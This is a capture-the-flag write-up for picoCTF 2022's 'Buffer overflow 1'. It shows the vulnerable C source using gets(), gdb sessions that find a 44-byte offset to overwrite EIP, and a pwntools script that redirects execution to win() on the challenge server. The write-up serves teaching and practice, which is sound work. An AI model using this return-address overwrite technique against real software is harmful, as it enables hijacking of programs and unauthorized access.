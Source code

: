 ```yaml
---
title: "pico22/pwn: Buffer overflow 1"
date: 2022-04-05 14:56:22
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [Buffer overflow 1]."
permalink: ctfs/pico22/pwn/buffer-overflow-1/
---
```

## 📜 Description
Control the return address \
Now we're cooking! You can overflow the buffer and return to the flag function in the program. \
You can view source here. And connect with it using `nc saturn.picoctf.net 61265`

---

## 🔍 Detailed Solution
Let's check out our source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

In the `vuln()` function, we see that the `gets()` function is being used. If you're new to binary exploitation, `gets()` is imfamous for being able to store more input than allocated, overflowing the buffer and writing onto the "stack". Because of this, we are able to write our own addresses onto the stack and change the return address to `win()`.

To start, we first need to figure out our "offset". The offset is just the distance between the beginning of the buffer and the position of the address we need to overwrite. Since this binary is in x32, the address will be stored in the `$eip` register. This can be visualized with the `gdb` utility:

```
gef➤  b main
Breakpoint 1 at 0x80492d7
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 

Breakpoint 1, 0x080492d7 in main ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xf7fa89e8  →  0xffffd1cc  →  0xffffd39c  →  "SHELL=/usr/bin/bash"
$ebx   : 0x0       
$ecx   : 0xffffd120  →  0x00000001
$edx   : 0xffffd154  →  0x00000000
$esp   : 0xffffd100  →  0xffffd120  →  0x00000001
$ebp   : 0xffffd108  →  0x00000000
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x80492d7  →  <main+19> sub esp, 0x10
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80492d3 <main+15>        mov    ebp, esp
    0x80492d5 <main+17>        push   ebx
    0x80492d6 <main+18>        push   ecx
 →  0x80492d7 <main+19>        sub    esp, 0x10
    0x80492da <main+22>        call   0x8049130 <__x86.get_pc_thunk.bx>
    0x80492df <main+27>        add    ebx, 0x2d21
    0x80492e5 <main+33>        mov    eax, DWORD PTR [ebx-0x4]
    0x80492eb <main+39>        mov    eax, DWORD PTR [eax]
    0x80492ed <main+41>        push   0x0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x80492d7 in main (), reason: BREAKPOINT
```
Analyzing this breakpoint, if you look at the arrow on the assembly code, you can see that its address is the exact same as the `$eip` (`0x80492d7`). We can overflow this register by passing in a bunch of `A`s into the code. Let's try it:
```
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x41414141 ("AAAA"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x41414141 in ?? (), reason: SIGSEGV
```
Look what happened: all of our registers just got overflowed with our `A`s in ASCII (`0x41` = `A`), including the `$eip`! However, we don't know **how many** `A`s we need to pass in order to reach the `$eip`. To solve this problem, we can use the pwntools `cyclic` command. This creates a recognizable cycling pattern for it to identify:
```
gef➤  shell cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x6161616c ("laaa"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
```
We can see that `$eip` is currently overflowed with the pattern `0x6161616c` (`laaa`). let's search for this pattern using `pattern search`:
```
gef➤  pattern search 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```
To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:
```
kali@kali:~/pico22/buffer-overflow-1$ readelf -h vuln | grep endian
  Data:                              2's complement, little endian
```
Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip`. The only thing we need now before we create our exploit is the address of the function we need to jump to in order to get the flag. This would be `win()`:
```
gef➤  x win
0x80491f6 <win>:	0xfb1e0ff3
```
Win is at `0x80491f6`. We can now make a simple exploit that connects to the server and prints the flag using Python and pwntools:
```py
from pwn import *
payload = b"A"*44 + p32(0x80491f6)        # The p32 function prints this address as little endian (b'\xf6\x91\x04\x08').
host, port = "saturn.picoctf.net", [PORT_REDACTED]

p = remote(host, port)                    # Opens the connection
log.info(p.readS())                       # Decodes/prints "Please enter your string:"
p.sendline(payload)                       # Sends the payload
log.success(p.readallS())                 # Decodes/prints all program outputs
p.close()                                 # Closes the connection
```
Let's try running the script on the server:
```
kali@kali:~/pico22/buffer-overflow-1$ python3 exp2.py
[+] Opening connection to saturn.picoctf.net on port [PORT_REDACTED]: Done
[*] Please enter your string: 
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port [PORT_REDACTED]
[+] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_********}
```
You have completed your first `ret2win` buffer overflow on a x32 binary!